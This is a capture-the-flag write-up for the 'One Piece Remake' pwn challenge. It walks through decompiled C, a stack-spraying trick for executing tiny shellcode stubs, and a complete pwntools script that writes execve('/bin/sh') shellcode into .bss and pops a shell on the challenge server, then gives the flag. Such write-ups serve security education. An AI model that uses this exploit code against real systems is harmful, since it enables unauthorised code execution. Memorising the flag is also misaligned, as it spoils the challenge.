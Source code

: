 # One Piece Remake

## Analysis
The vulnerability looks pretty simple.  

```c
  menu();
  while ( 1 )
  {
    while ( 1 )
    {
      printf("(menu)>>");
      fgets(&s, 15, stdin);
      if ( strcmp(&s, "read\n") )
        break;
      readSC();
    }
    if ( !strcmp(&s, "run\n") )
    {
      runSC();
    }
    else if ( !strcmp(&s, "gomugomunomi\n") )
    {
      mugiwara();
    }
    else
    {
      if ( !strcmp(&s, "exit\n") )
        exit(1);
      puts("can you even read ?!");
    }
  }
```

We can input the shellcode to memory just use readSC() function.  
And execute the shellcode which wrote by us to memory just use runSC() function.  

However, the size of memory does not seem to be enough.  
So we need to think differently, there is format string bug in mugiwara() function, but we don't need to use this vulnerability.  

We can spray shellcodes through the mugiwara() function.  

```c
int mugiwara()
{
  char buf; // [sp+Ch] [bp-6Ch]@1

  puts("what's your name pirate ?");
  printf(">>");
  read(0, &buf, 0x64u);
  printf(&buf);
  return 0;
}
```

Thus, we just spray shellcodes through the mugiwara() function, and just jump to this relative offsets.  
But, some memory pointers overwrite our intact shellcodes, so our shellcode will be corrupted by stack unwinding.  
We can use only 16 bytes for shellcoding, I just use instructions for storing values to specific memory and just increseaing our esp register, and retn.  

```
0:  83 ec 60                sub    esp,0x60
3:  ff e4                   jmp    esp
```

We can use this two instructions for execute our shellcodes which are smaller than 16 bytes.  
And finally we can write 4 bytes to specific addresses.  

```
5:  b8 11 22 33 44          mov    eax,0x44332211
a:  c7 00 aa bb cc dd       mov    DWORD PTR [eax],0xddccbbaa
10: 83 c4 60                add    esp,0x60
13: c3                      ret
```

And, there is no NX mitigations, we may execute the shellcodes on bss sections.  
Finally, i wrote all of my shellcodes to bss section, and finally jumped to my shellcode safely.  

```python
from pwn import *

def pad_shellcode(shellcode):
    if len(shellcode) % 4 != 0:
        shellcode += ("\x90" * (4 - (len(shellcode) % 4)))
    return shellcode

def write_4_bytes_to_address(address, codes):
    p.recvuntil("(menu)>>")
    p.sendline("read")
    p.recvuntil(">>")
    p.send("\x83\xec\x60\xff\xe4")
    p.recvuntil("(menu)>>")
    p.sendline("gomugomunomi")
    p.recvuntil(">>")
    payload = "\xb8" + p32(address)
    payload += "\xc7\x00" + codes
    payload += "\x83\xc4\x60"
    payload += "\xc3"
    p.send(payload)
    p.recvuntil("(menu)>>")
    p.sendline("run")

def execute_shell():
    p.recvuntil("(menu)>>")
    p.sendline("read")
    p.recvuntil(">>")
    p.send("\x83\xec\x60\xff\xe4")
    p.recvuntil("(menu)>>")
    p.sendline("gomugomunomi")
    p.recvuntil(">>")
    payload = "\xb8\x48\xa0\x04\x08"
    payload += "\xff\xd0"
    p.send(payload)
    p.recvuntil("(menu)>>")
    p.sendline("run")

sub_esp = "\x81\xec\x00\x02\x00\x00"
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
shellcode = pad_shellcode(shellcode)

#p = process("./one_piece_remake")
p = remote("onepiece.fword.wtf", 1236)
for i in range(0, len(shellcode), 4):
    write_4_bytes_to_address(0x0804a048 + i, shellcode[i:i+4])

execute_shell()
p.interactive()
```

Flag : FwordCTF{i_4m_G0inG_t0_B3coM3_th3_p1r4Te_K1NG}